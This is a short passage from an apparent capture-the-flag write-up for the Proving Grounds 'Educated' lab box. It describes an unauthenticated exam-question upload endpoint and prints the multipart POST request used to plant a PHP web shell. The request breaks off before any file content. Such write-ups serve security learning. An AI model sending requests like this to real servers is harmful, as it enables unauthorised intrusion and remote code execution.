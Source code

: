 Here are the screenshots of the source code that show the uploading of a new exam question does not check for authentication.

![source1](../../../assets/images/ctfs/proving_grounds/educated/source1.png)

![source2](../../../assets/images/ctfs/proving_grounds/educated/source2.png)

Here is the payload that successfully uploaded a PHP web shell by exploiting the exam_question exploit above.

```bash
POST /management/admin/examQuestion/create HTTP/1.1

Host: 192.168.173.13

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544

Content-Length: 1336

Connection: close

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1



-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="name"



test4

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="class_id"



2

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="subject_id"



5

-----------------------------183813756938980137172117669544

Content-Disposition: form-data; name="timestamp"



2021-12-08

-----------------------------183813756938980137172117669544

```